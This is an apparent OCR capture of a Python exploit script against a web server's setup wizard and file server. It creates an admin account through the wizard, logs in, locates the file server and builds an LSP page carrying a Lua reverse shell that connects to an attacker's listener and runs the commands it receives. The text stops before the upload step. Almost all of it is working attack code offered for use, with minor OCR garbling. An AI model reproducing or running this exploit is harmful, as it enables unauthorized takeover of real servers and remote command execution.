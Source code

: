 def createUser(r,s):  
    data = { email : email ,   
            'user' : username ,   
            'password' : password ,   
            'recoverpassword' : 'on' }  
    r = s.post(f"http://{url}:{port}/Config-Wizard/wizard/SetAdmin.lsp", data = data)  
    print(f"{Fore.GREEN}[+]{Fore.WHITE} User Created!")      
  
def login(r,s):  
    print(f"{Fore.GREEN}[+]{Fore.WHITE} Logging in...")  
  
    data = {'ba_username' : username , 'ba_password' : password}  
    r = s.post(f"http://{url}:8082/rtl/protected/wfslinks.lsp", data = data, verify = False ) # switching to https cause its easier to script lolz    
  
    #Veryify login   
    login_Success_Title = 'Web-File-Server'  
    soup = BeautifulSoup(r.content, 'html.parser')  
    search = soup.find('title')  
      
    for i in search:  
        if i != login_Success_Title:  
            print(f"{Fore.RED}[!]{Fore.WHITE} Error! We got sent back to the login page...")  
            exit(0)  
    print(f"{Fore.GREEN}[+]{Fore.WHITE} Success! Finding a valid file server link...")  
  
    exploit(r,s)  
  
def exploit(r,s):  
    #Find the file server, default is fs  
    r = s.get(f"http://{url}:8082/fs/")  
      
    code = r.status_code  
  
    if code == 404:  
        print(f"{Fore.RED}[!]{Fore.WHITE} File server not found. ")  
        exit(0)  
  
    print(f"{Fore.GREEN}[+]{Fore.WHITE} Code: {code}, found valid file server, uploading rev shell")  
      
    #Change the shell if you want to, when tested I've had the best luck with lua rev shell code so thats what I put as default   
    shell = f'local host, port = "{LHOST}", {LPORT} \nlocal socket = require("socket")\nlocal tcp = socket.tcp() \nlocal io = require("io") tcp:connect(host, port); \n while       true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'  
  
      
    file_content = f'''  
 <h2> Check ur nc listener on the port you put in <h2>  
  
 <?lsp if request:method() == "GET" then ?>  
  <?lsp   
        {shell}    
  ?>  
 <?lsp else ?>  
  Wrong request method, goodBye!   
 <?lsp end ?>  
 '''  
  